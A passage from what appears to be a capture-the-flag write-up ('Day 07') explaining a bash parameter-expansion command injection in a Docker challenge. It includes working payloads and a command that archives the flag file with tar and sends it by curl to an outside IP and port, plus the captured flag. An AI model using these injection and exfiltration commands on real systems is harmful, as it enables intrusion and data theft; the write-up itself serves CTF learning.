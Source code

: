 Indeed, instead of interpreting our bash command, the string is interpreted as is, and it doesn't seem to like spaces inside parenthesis!

OK no problem. We tried for 1 hour or 2 interpreting bash, it doesn't work. But we can do our exploit in two commands: first renaming the file with a smaller name then sending it... right?

```bash
GOWN="cp /flag/randomflagdockersayspouet.txt /tmp/t.txt #"
eval $GOWN
	ok
echo $(${GOWN})
	cp: target '#' is not a directory
```

??!!! This sneaky bash parameter expansion means that all characters in the payload are interpreted either as a command or its parameters! our `#` or `;` are not interpreted as bash commands or command ending instruction.

By pure luck, when we tested the `curl` command, it allows any number of URLs as parameters, and ignores invalid URLs, like this:

```bash
man curl
	curl [OPTIONS] URL...
curl -k example.com "####%91%EBa"
	<title>Example Domain</title>
	...
	curl: (3) URL rejected: No host part in the URL
```

But with `cp`, `mv`, or `dd` executables, we have an usage where the destination is the last character. Where our padding is!

```bash
cp /flag/randomflagdockersayspouet.txt /tmp/flag.txt "####"
	cp: target '####': no file or directory existing
```

after a 5 hours battle, I finally found in the `/bin/` directory of the docker  container a command that would allow me to move my file: good old `tar` !

```bash
tar -cvf /tmp/z.zip /flag/randomflagdockersayspouet.txt #
curl --data-binary @/tmp/z.zip 88.165.169.180:49153 #
	POST / : b'flag/randomflagdockersayspouet.txt\\x00\\x00
	...
	RM{OffenSkillSaysWhat2024YouGotGowned}\\n\\x00\\x00\\x00
```

Why do things the simple way when you can do it the insanely convoluted way?

##### update : null bytes

after the release of this write-up, [iTrooz](https://itrooz.fr/) told me that instead of using a '`#`' to end my payload, I could have used a null-byte '`\x00`'. And indeed yes, I completely forgot about it and it would have perfectly worked. Thanks again for the reminder ^^'


| Previous day | [[Day 06 - Unwrap The Gift]]    |
| ------------ | ------------------------------- |
| Next day     | [[Day 08 - Custom HTTP Server]] |